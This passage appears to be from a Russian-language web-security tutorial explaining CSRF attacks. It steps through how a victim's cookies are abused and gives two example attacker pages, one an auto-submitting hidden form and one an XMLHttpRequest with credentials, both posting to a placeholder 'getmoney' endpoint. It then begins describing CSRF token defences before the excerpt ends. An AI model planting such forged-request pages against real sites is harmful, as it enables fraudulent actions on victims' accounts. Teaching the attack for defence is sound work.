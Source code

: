 1. Пользователь авторизуется на веб-сайте.
2. Сервер отправляет данные для идентификации пользователя в cookie, которые сохраняются в браузере клиента.

    Хоть куки могут быть доступны только для веб-сайта, который их создал, так как браузеры обеспечивают изоляцию куков между различными доменами, чтобы предотвратить несанкционированный доступ к данным. Но хакеры пользуются тем, что после сохранения cookies, браузер автоматически добавляет их к каждому запросу на сервер, не зависимо от домена отправки запроса.
3. Злоумышленник отправляет ссылку на свой сайт по почте или размещает на форуме. И по ней переходит жертва.
4. На сайте злоумышленника находится форма, которая формирует запрос для выполнения нежелательных действий, таких как перевод денег.
5. Запрос автоматически отправляется, прикрепляя cookie жертвы.
6. На сервере успешно проходит аутентификация, так как в cookie хранится идентификатор пользователя. В итоге запрос выполняется и жертва теряет деньги.

Пример сайта хакера:

``` html
<html>
    <body>
        <form action="https://example.com/user/getmoney" method="POST">
            <input type="hidden" name="city" value="Moscow" />
            <input type="hidden" name="street" value="Prospekt&#32;Mira" />
            <input type="hidden" name="zip" value="12345">
            <input type="submit" value="Submit request" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Или так

``` html
<script>
    let request = new XMLHttpRequest();
    let data = 'city=Moscow&street=Prosperkt+Mira&zip=12345';
    request.open('POST','https://example.com/user/getmoney', true); 
    request.withCredentials = true; // INCLUDE COOKIES
    request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    request.send(data);
</script>
```

Такие страницы отрисовываются очень быстро, и пользователь может и не заметить, что посетил сайт хакера, и в итоге окажется на сайте банка.

Как от нее защититься?
-----------------------

Эффективным и общепринятым на сегодня способом защиты от CSRF-Атаки является токен. Под токеном имеется в виду случайный набор байт, который сервер передает клиенту, а клиент возвращает серверу.
